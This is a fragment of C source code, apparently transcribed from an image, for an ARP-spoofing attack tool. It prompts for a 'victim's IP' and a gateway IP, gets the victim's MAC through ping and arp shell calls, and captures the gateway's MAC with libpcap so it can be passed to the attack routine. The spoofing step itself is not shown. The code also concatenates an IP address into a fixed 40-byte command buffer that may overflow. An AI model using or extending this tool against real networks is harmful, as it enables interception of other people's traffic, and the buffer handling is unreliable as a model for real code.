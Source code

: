 ```c
    int sockfd;
    static struct ifreq req;
    sockfd = socket(PF_INET, SOCK_DGRAM, 0);
    strcpy(req.ifr_name, dev);
    ioctl(sockfd, SIOCGIFHWADDR, &req);
    print_mac((u_char *)req.ifr_hwaddr.sa_data);
    memcpy(ATTACKER_MAC, (u_char *)req.ifr_hwaddr.sa_data, 6);
    printf("\n");

    /* enter victim's ip */
    printf("Please enter your victim's IP (format: 192.168.1.0)\n");
    scanf("%hhd.%hhd.%hhd.%hhd", &TARGET_IP[0], &TARGET_IP[1], &TARGET_IP[2], &TARGET_IP[3]);

    /* enter gatewat's ip */
    printf("Please enter your gateway's IP (format: 192.168.1.0)\n");
    scanf("%hhd.%hhd.%hhd.%hhd", &GATEWAY_IP[0], &GATEWAY_IP[1], &GATEWAY_IP[2], &GATEWAY_IP[3]);

    /* get attack resource */
    printf("\nGetting your victim's MAC......\n");
    char ip[20], ping[40] = "ping -c 3 > data/ping.txt ", arp[30] = "arp -e > data/arp.txt ", data[300];
    sprintf(ip,"%d.%d.%d.%d", TARGET_IP[0], TARGET_IP[1], TARGET_IP[2], TARGET_IP[3]);
    strcat(ping, ip), system(ping);
    strcat(arp, ip), system(arp);
    FILE* fp = fopen("data/arp.txt", "r");
    fgets(data, 300, fp);
    fgets(data, 300, fp);
    char *p = strstr(data, "ether");
    if (p == NULL) {
        printf("Not found!\n");
        exit(1);
    }
    get_mac(TARGET_MAC, p + 8);
    printf("His MAC is: ");
    print_mac(TARGET_MAC);
    printf("\n");

    /* get gateway's mac */
    printf("Geting gateway's MAC\n");
    struct bpf_program filter;
    char filter_app[20] = "src ";
    char gateway[15];
    sprintf(gateway, "%d.%d.%d.%d", GATEWAY_IP[0], GATEWAY_IP[1], GATEWAY_IP[2], GATEWAY_IP[3]);
    strcat(filter_app, gateway);
    pcap_compile(handle, &filter, filter_app, 0, *net);
    pcap_setfilter(handle, &filter);
    pcap_loop(handle, 1, getgateway, NULL);
    arg->TARGET_IP = TARGET_IP;
    arg->TARGET_MAC = TARGET_MAC;
    arg->ATTACKER_MAC = ATTACKER_MAC;
    arg->GATEWAY_IP = GATEWAY_IP;
    arg->GATEWAY_MAC = GATEWAY_MAC;
    pcap_close(handle);
}
```
